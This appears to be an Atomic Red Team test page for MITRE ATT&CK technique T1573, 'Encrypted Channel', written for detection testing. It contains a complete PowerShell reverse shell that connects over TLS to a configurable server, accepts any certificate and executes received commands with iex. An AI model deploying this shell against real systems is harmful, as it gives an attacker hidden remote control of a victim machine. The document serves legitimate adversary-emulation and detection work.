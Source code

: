 # T1573 - Encrypted Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1573)
<blockquote>

Adversaries may employ an encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if secret keys are encoded and/or generated within malware samples/configuration files.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)


<br/>

## Atomic Test #1 - OpenSSL C2
Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

Upon successful execution, powershell will make a network connection to 127.0.0.1 over 443.

**Supported Platforms:** Windows


**auto_generated_guid:** 21caf58e-87ad-440c-a6b8-3ac259964003





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | IP of the external server | string | 127.0.0.1|
| server_port | The port to connect to on the external server | string | 443|


#### Attack Commands: Run with `powershell`! 


```powershell
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', '#{server_port}')
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```






<br/>
